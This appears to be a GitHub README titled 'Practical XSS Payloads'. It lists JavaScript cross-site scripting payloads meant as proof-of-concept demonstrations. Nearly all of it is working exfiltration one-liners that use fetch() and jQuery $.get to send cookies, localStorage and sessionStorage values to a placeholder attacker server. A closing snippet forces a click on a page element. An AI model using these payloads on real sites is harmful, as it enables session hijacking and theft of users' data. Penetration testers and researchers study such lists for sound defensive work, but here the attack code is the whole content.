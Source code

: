 # Practical XSS Payloads
## About
Instead of using alert() for your XSS payloads, I encourage you to check out some XSS payloads which have purpose and hammer home a point.
+ **TLDR:** *POC||GTFO*

### **Quick-navigation:**
+ **EXFILTRATION:**  
  + [Fetch](https://github.com/Insecurities/PracticalXSSPayloads#fetch)  
  + [.$GET](https://github.com/Insecurities/PracticalXSSPayloads#jquery-ajax)
+ **ACTIONS:**

# EXFILTRATION
*For session hijacking, sensitive info exfil, etc.*
## FETCH
### GET VALUE FROM LOCAL STORAGE AND $FETCH:
```javascript
fetch("https://$ATTACKER_SERVER/?exfil="+localStorage.getItem("$ITEM_FROM_LOCAL_STORAGE"))
```
### GET VALUE FROM SESSION STORAGE AND $FETCH:
```javascript
fetch("https://$ATTACKER_SERVER/?exfil="+sessionStorage.getItem("$ITEM_FROM_LOCAL_STORAGE"))
```
### GET COOKIES AND $FETCH
```javascript
fetch("https://$ATTACKER_SERVER/?exfil="+document.cookie)
```
## JQuery AJAX
### GET VALUE FROM LOCAL STORAGE AND $.GET
```javascript
$.get("https://$ATTACKER_SERVER/?exfil="+localStorage.getItem("$ITEM_FROM_LOCAL_STORAGE"))
```
### GET VALUE FROM SESSION STORAGE AND $.GET:
```javascript
$.get("https://$ATTACKER_SERVER/?exfil="+sessionStorage.getItem("$ITEM_FROM_LOCAL_STORAGE"))
```
### GET COOKIES AND $.GET
```javascript
$.get("https://$ATTACKER_SERVER/?exfil="+document.cookie)
```  
# FORCING ACTIONS
*For forcing users to preform a certain action. This is tricky because every app is going to be different and thus these will require **modification**.*
## CLICK ELEMENT BY ID
```javascript
document.getElementById("$TARGET_ELEMENT_ID").click()
```
